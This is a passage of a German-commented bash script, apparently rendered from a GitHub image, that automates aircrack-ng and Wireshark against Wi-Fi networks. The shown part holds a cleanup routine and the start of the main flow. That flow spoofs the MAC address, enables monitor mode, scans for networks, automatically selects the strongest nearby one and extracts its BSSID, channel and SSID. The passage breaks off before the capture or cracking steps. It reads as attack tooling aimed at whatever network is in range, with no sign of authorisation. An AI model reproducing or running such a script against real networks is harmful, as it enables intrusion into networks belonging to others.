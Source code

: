 # Bereinigung
cleanup() {
    log "${YELLOW}Bereinige und stelle ursprünglichen Zustand wieder her...${NC}"
    
    # Beende Monitor-Modus falls aktiv
    for mon in $(ip a | grep -E "^[0-9]:" | grep "mon" | cut -d: -f2 | tr -d ' '); do
        airmon-ng stop $mon > /dev/null 2>&1
    done
    
    # Starte NetworkManager
    systemctl restart NetworkManager
    
    log "${GREEN}Bereinigung abgeschlossen.${NC}"
}

# Hauptfunktion
main() {
    log "${GREEN}===== Vollautomatisiertes Aircrack-ng und Wireshark-Skript =====${NC}"
    log "${YELLOW}Ausgabeverzeichnis: $OUTPUT_DIR${NC}"
    
    # Überprüfe Abhängigkeiten
    check_dependencies
    
    # Ändere MAC-Adresse
    randomize_mac
    
    # Aktiviere Monitor-Modus
    monitor_interface=$(setup_monitor_mode)
    
    # Scanne nach Netzwerken und wähle das stärkste aus
    network_info=$(scan_and_select_network "$monitor_interface")
    if [ $? -ne 0 ]; then
        log "${RED}Netzwerkscan fehlgeschlagen. Beende...${NC}"
        cleanup
        exit 1
    fi
    
    # Extrahiere Netzwerkinformationen
    bssid=$(echo $network_info | cut -d, -f1)
    channel=$(echo $network_info | cut -d, -f2)
    ssid=$(echo $network_info | cut -d, -f3)
    